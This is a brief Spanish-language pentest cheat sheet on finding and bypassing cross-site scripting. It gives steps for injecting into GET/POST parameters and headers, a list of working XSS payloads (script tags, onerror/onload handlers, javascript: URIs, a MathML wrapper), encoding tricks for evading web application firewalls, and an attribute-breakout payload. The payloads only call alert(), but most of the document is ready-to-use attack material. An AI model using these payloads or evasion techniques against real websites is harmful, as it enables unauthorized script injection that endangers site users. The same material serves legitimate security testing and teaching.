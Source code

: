 -- -
#### 📝 **Detección y Bypass de XSS**  
---

## 🔍 **Fase 1: Reconocimiento**  
- Inyectá payloads simples en parámetros GET, POST o cabeceras.  
- Buscá `<script>alert(1)</script>` en la respuesta.  

---

## 🔗 **Fase 2: Inyecciones Básicas (con Tag Cerrado)**  
```html
<script>alert(1)</script>
<img src="x" onerror="alert('XSS')" />
<iframe src="javascript:alert('XSS');"></iframe>
<svg onload="alert('XSS');"></svg>
<video><source onerror="alert('XSS');"></source></video>
<object data="javascript:alert('XSS');"></object>
<math><annotation-xml encoding="application/xhtml+xml"><script>alert('XSS');</script></annotation-xml></math>
```

---

## 🗃️ **Fase 3: Bypass de WAF**  
- **HTML Entities**: `&#60;script&#62;`.  
- **URL Encoding**: `%3Cscript%3E`.  
- **Hex/Unicode**: `\u003Cscript\u003E`.  
- **Double Encoding**: `%26%2360%3Bscript%26%2362%3B`.  

---

## 🛠️ **Algunos payloads**  
```javascript 
" style="animation-name:swoop-up" onanimationstart="alert(document.domain)
```

---
